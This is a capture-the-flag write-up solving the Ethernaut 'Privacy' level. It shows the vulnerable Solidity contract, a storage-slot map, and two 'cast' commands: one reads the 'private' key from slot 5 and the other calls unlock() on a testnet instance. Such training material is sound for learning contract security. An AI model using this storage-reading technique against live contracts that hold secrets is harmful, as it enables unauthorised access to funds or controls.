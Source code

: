 ```yaml
---
title: Ethernaut - Privacy - Solution
date: '2024-05-10'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Privacy CTF
---
```


# Ethernaut - Privacy - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

## Exploit

The goal of this level is to set `locked` to `false`.

A prerequisite for this level is to [understand the storage layout of smart contracts](https://medium.com/@ozorawachie/solidity-storage-layout-and-slots-a-comprehensive-guide-2cee71817ed8).

Looking at the above contract, we see that the last element of the `data` array (`data[2]`) is stored in the storage slot with index 5. 
More specifically, the storage layout looks like this:
- Slot 0: `locked`
- Slot 1: `ID`
- Slot 2: `flattening`, `denomination`, and `awkwardness`
- Slot 3: `data[0]`
- Slot 4: `data[1]`
- Slot 5: `data[2]`

So, to get the correct `_key`, we need to read the first 34 characters (2 for the `0x` and 32 for the first 16 bytes) of the value stored in slot 5.

```bash
cast storage <your level instance> 5 --rpc-url $SEP_RPC_URL | cut -c 1-34
# Result: 0x0f09b23d6279de8f8e7fc60d468bf0fb
```

Subsequently, we can unlock the contract via:

```bash
cast send <your level instance> "unlock(bytes16)" 0x0f09b23d6279de8f8e7fc60d468bf
0fb --rpc-url $SEP_RPC_URL --private-key <your private key>
```